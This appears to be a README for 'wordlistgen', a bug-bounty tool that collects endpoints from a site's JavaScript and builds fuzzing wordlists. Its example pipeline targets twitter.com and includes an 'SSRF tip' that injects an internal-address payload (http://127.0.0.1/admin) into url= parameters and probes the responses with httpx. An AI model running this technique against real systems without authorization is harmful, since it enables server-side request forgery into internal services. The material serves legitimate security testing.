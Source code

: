 # wordlistgen
Generates target specific word lists by searching for endpoints in javascript and appends parameters for Fuzzing with other tools

**Version 1.0**


### Install

**`$ go get -u github.com/ethicalhackingplayground/wordlistgen`**

**`$ go get github.com/003random/getJS`**


![GitHub Logo](carbon.png)


### Generate wordlist
**`$ echo "https://www.twitter.com" | getJS -complete | ./wordlistgen -p params.txt -d "https://www.twitter.com"`**

![GitHub Logo](carbon2.png)

The use ffuf


**Then get creative with FFuF or https://github.com/tomnomnom/qsreplace**

****
### SSRF TIP2:


#### Generate Wordlist
**`$ cat <Resolved-Domains> | getJS -complete | ./wordlistgen -p params.txt -d <Un-Resolved> | tee wordlist`**

**`$ cat "https://www.twitter.com" | getJS -complete | ./wordlistgen -p params.txt -d "www.twitter.com" | tee wordlist`**

```
OUTPUT:

www.twitter.com/responsive-web-internal/sourcemaps/client-web-legacy/polyfills.525f28f5.js.map/?url=FUZZ
www.twitter.com/v/latest/72x72//?url=FUZZ
www.twitter.com/responsive-web-internal/sourcemaps/client-web-legacy/en.363b7e25.js.map/?url=FUZZ
www.twitter.com/articles/18311/?url=FUZZ
```

###### You can also use `-dL` to load a list of subdomains like:
**`$ cat <Resolved-Domains> | getJS -complete | ./wordlistgen -p params.txt -dL <Un-Resolved> | tee wordlist`**


##### Replace Variables with Payload
**`$ cat wordlist | qsreplace http://127.0.0.1/admin | tee -a hosts`**

```
OUTPUT:

www.twitter.com/responsive-web-internal/sourcemaps/client-web-legacy/polyfills.525f28f5.js.map/?url=http%3A%2F%2F127.0.0.1%2Fadmin
www.twitter.com/v/latest/72x72//?url=http%3A%2F%2F127.0.0.1%2Fadmin
www.twitter.com/responsive-web-internal/sourcemaps/client-web-legacy/en.363b7e25.js.map/?url=http%3A%2F%2F127.0.0.1%2Fadmin
www.twitter.com/articles/18311/?url=http%3A%2F%2F127.0.0.1%2Fadmin
```

#### Use HTTPX to keep track of the codes,titles
**`$ cat hosts | httpx -title -status-code`**

#### I hope you get a bounty with this technique.
****


**If you get a bounty please support by buying me a coffee**

<br>
<a href="https://www.buymeacoffee.com/krypt0mux" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>
